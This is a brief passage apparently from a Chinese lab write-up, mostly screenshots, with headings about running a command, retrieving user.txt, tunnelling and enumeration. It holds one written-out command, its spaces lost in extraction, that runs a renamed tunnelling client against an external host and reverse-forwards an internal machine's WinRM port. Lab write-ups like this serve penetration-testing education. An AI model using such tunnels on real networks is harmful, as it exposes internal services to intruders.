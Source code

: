 执行命令  
获取 user.txt

[![](assets/1699929055-12b94ef0fc90bd1f5cb7b277cdd81bc5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104356-7d5a88e6-81ce-1.png)

.\\c.execlient10.10.14.39:8000R:5985:192.168.122.132:5985

隧道  
[![](assets/1699929055-4c3df168934954ae12948c7210fb56ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104404-823fbc46-81ce-1.png)

枚举
